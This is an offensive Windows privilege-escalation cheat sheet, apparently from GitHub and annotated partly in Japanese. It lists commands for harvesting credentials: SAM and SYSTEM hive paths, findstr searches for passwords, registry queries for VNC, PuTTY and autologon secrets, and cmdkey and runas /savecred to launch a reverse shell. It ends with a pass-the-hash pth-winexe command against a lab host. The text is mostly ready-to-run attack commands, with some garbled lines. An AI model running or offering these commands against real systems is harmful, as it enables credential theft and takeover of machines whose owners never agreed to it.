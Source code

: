 ## Passwords
### Sensitive files
%SYSTEMROOT%\repair\SAM  
%SYSTEMROOT%\System32\config\RegBack\SAM  
%SYSTEMROOT%\System32\config\SAM  
%SYSTEMROOT%\repair\system  
%SYSTEMROOT%\System32\config\SYSTEM  
%SYSTEMROOT%\System32\config\RegBack\system  
findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
Findstr /si password *.config 
findstr /si pass/pwd *.ini  
dir /s *pass*== *cred*== *vnc*== *.config*inall files  
findstr /spin "password"*.*findstr /spin "password"*.*

### Config Files
c:\sysprep.inf  
c:\sysprep\sysprep.xml  
c:\unattend.xml  
%WINDIR%\Panther\Unattend\Unattended.xml  
%WINDIR%\Panther\Unattended.xml  

dir /b /s unattend.xml  
dir /b /s web.config  
dir /b /s sysprep.inf  
dir /b /s sysprep.xml  
dir /b /s *pass*  

dir c:\*vnc.ini /s /b  
dir c:\*ultravnc.ini /s /b   
dir c:\ /s /b | findstr /si *vnc.ini

### Registory
reg query HKLM /f password /t REG_SZ /s
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

#### VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"  
reg query "HKCU\Software\TightVNC\Server"  

#### Windows autologin  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"  

#### SNMP Paramters  
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"  

#### Putty  
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"  

#### Search for password in registry  
reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /s

### RunAs - Savedcreds
cmdkey /list 
保存されている資格情報を表示し、任意のオプション ユーザーを検索します

runas /savecred /user:admin C:\Temp\reverse.exe
リバースシェルを転送します

### Pass the Hash
#何らかの手段でハッシュを取得する場合は、psexec、smbexecを使用し、別のユーザーとしてシェルを取得します。
pth-winexe -U JEEVES/administrator%aad3b43XXXXXXXX35b51404ee:e0fb1fb857XXXXXXXX238cbe81fe00 //10.129.26.210 cmd.exe
